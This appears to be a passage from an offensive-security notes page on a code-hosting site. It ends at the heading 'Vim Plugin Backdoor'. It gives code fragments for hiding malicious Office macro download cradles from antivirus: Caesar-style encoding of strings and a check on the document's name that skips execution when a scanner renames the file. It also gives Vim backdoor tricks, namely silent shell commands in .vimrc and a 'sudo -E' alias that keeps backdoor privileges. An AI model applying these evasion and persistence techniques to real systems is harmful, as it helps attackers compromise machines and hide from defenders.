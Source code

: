 To avoid the use of StrReverse, convert ASCII string to decimal and Caesar encode.

[Encryptor Full Source](../src/powershell/caesar-cradle-encrypter.ps1)

```
[string]$thischar = [byte][char]$_ + 17
    if($thischar.Length -eq 1)
    {
        $thischar = [string]"00" + $thischar
        $output += $thischar
    }
```

[Decryptor Full Source](../src/visualbasic/caesar-cradle-decryptor.vb)

```
Function Nuts(Milk)
Do
  Oatmilk = Oatmilk + Pears(Strawberries(Milk))
  Milk = Almonds(Milk)
  Loop While Len(Milk) > 0
  Nuts = Oatmilk
End Function
```

### VBA Document Name Check

Evade AV that changes the name of the document before scanning.

```
If ActiveDocument.Name <> Nuts("131134127127118131063117128116") Then
  Exit Function
End If
```

### Vim Backdoors

#### Silent Vimscript Backdoor

```
:silent !source ~/.vimrunscript
```

#### Retaining Backdoor Privileges

```
alias sudo="sudo -E"
```

#### Silent Backdoor Command

```
# .vimrc
:silent !touch /tmp/pwnd
```

#### Vim Plugin Backdoor
